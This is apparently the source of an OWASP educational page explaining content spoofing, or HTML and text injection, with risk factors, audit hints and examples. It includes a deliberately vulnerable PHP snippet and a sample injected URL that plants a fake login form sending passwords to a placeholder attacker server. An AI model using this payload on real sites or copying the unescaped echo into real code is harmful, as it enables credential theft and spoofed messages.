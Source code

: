 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1
---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

> Attack Type: Client-Side

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![](assets/images/Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Audit Guideline

Text injection can be easily found if:

1. User input via parameter or directly in the URL is reflected in the page response
2. Content-Type: text/plain
3. Application is giving default error pages

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including his injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
            Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)
- [Case studies (Spotify, LinkedIn, ..etc)](https://twitter.com/ncweaver/status/974802236567007232?s=12)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)
